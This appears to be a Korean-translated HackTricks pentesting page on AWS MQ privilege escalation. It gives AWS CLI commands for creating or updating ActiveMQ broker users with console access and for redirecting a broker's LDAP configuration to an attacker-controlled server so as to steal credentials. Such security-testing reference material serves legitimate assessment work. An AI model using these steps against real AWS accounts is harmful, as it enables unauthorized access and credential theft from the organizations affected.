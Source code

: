 # AWS - MQ Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## MQ

For more information about MQ check:

{{#ref}}
../../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

해당 권한으로 **ActimeMQ 브로커에 새 사용자를 생성할 수 있습니다** (이는 RabbitMQ에서는 작동하지 않습니다):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**잠재적 영향:** ActiveMQ를 탐색하여 민감한 정보에 접근

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

해당 권한이 있으면 **ActimeMQ 브로커에 새 사용자를 생성할 수 있습니다** (이는 RabbitMQ에서는 작동하지 않습니다):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**잠재적 영향:** ActiveMQ를 통해 탐색하여 민감한 정보에 접근

### `mq:ListBrokers`, `mq:UpdateBroker`

브로커가 **LDAP**을 사용하여 **ActiveMQ**에서 권한 부여를 수행하는 경우, LDAP 서버의 **구성**을 **attacker가 제어하는 서버로** **변경**할 수 있습니다. 이렇게 하면 attacker는 **LDAP을 통해 전송되는 모든 credentials을 탈취**할 수 있습니다.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
ActiveMQ에서 사용된 원래 credentials를 어떻게든 찾아낼 수 있다면 MitM을 수행하여 creds를 훔치고, 원래 서버에서 이를 사용해 응답을 전송할 수 있습니다(혹은 훔친 credentials를 재사용하는 것만으로도 가능할 수 있습니다).

**잠재적 영향:** Steal ActiveMQ credentials

{{#include ../../../../banners/hacktricks-training.md}}
